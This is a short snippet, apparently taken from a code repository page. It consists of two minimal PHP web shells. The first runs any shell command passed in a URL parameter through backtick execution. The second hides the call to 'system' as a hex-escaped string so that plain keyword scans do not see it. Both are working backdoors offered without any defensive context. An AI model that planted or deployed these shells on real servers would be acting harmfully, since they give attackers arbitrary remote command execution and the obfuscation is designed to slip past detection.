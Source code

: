 ```php
<?php
	$c=$_GET[0];
	echo `$c`; 
?>

# system in hexadecimal (echo "system" | xxd )
<?php
	"\x73\x79\x73\x74\x65\x6d"($_GET[0]);
?>

```




